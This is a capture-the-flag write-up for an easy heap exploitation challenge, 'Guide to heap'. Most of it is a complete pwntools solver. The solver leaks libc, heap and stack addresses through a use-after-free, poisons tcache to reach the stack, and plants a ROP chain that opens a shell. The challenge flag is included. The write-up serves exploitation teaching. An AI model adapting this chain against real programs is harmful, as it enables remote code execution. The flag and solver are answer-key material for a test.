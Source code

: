 # Guide to heap : pwn

This problem was generated using ChatGPT. No modifications have been made to the original source code.  
Originally, as the title suggests, I intended this to be a beginner-friendly heap problem where simply following the instructions would allow you to obtain the flag.  
I apologise for the misleading title.  
However, as it is a template problem, I believe it remains within the scope of beginner-friendly content.

## Result
Solved: 28  
Points: 383

1st: syn9(sknb)  
2nd: 0xM4hm0ud(The Trio)  
3rd: 5unsetpowerln(TPC)

## Challenge
We will guide you to the door of the heap world!  
`nc chal1.fwectf.com 8010`

Difficulty: easy
Attachment: [guide_to_heap.zip](guide_to_heap.zip)

## writeup

Knowing the following will enable you to solve it:
* tcache, unsortedbin, etc.
* double free, UAF
* tcache poisoning
* libc leak
* GOT Overwrite
* ROP

Below is the executable code:
```python solver.py
from pwn import *

elf = context.binary = ELF('./chall')
libc = ELF('./libc.so.6')

def allocate_(index, size, data=None, zero=False):
    p.sendlineafter(b'> ', b'1')
    p.sendlineafter(b': ', str(index).encode())
    p.sendlineafter(b': ', str(size).encode())
    if not zero:
        p.sendafter(b': ', data)
def delete_(index):
    p.sendlineafter(b'> ', b'2')
    p.sendlineafter(b': ', str(index).encode())
def edit_(index, data):
    p.sendlineafter(b'> ', b'3')
    p.sendlineafter(b': ', str(index).encode())
    p.sendafter(b': ', data)
def show_(index):
    p.sendlineafter(b'> ', b'4')
    p.sendlineafter(b': ', str(index).encode())
def exit_():
    p.sendlineafter(b'> ', b'5')

p = remote('chal1.fwectf.com', 8010)

allocate_(0, 0x418, b'A'*0x418)
allocate_(1, 0x18, b'B'*0x18)
delete_(0)
delete_(1)

show_(0)
libc.address = u64(p.recvn(6).ljust(8, b'\0')) - 0x203b20
print('libc', hex(libc.address))

libc_argv = libc.address + 0x2046e0

show_(1)
heap = u64(p.recvn(3).ljust(8, b'\0')) << 12
print('heap', hex(heap))

allocate_(2, 0x18, b'A'*0x18)
allocate_(3, 0x18, b'B'*0x18)
delete_(2)
delete_(3)
edit_(3, p64((heap>>12)^libc_argv))
allocate_(4, 0x18, b'C'*0x18)
allocate_(5, 0x0, zero=True)
show_(5)
stack = u64(p.recvn(6).ljust(8, b'\0'))
print('stack', hex(stack))

target_stack = stack - 0x148

allocate_(6, 0x108, b'X'*0x108)
allocate_(7, 0x108, b'Y'*0x108)
delete_(6)
delete_(7)
edit_(7, p64(target_stack^(heap>>12)))
allocate_(0, 0x108, b'Z'*0x100)

system = libc.sym['system']
binsh  = next(libc.search(b'/bin/sh\0'))
pop_rdi = libc.address + 0x001ae710
ret = pop_rdi + 1

rop = flat(
    ret,
    pop_rdi,
    binsh,
    system,
)
payload  = p64(0xdeadbeef)
payload += rop
allocate_(1, 0x108, payload)

p.interactive()
```

## flag

`fwectf{kn0w1ng_7c4ch3}`
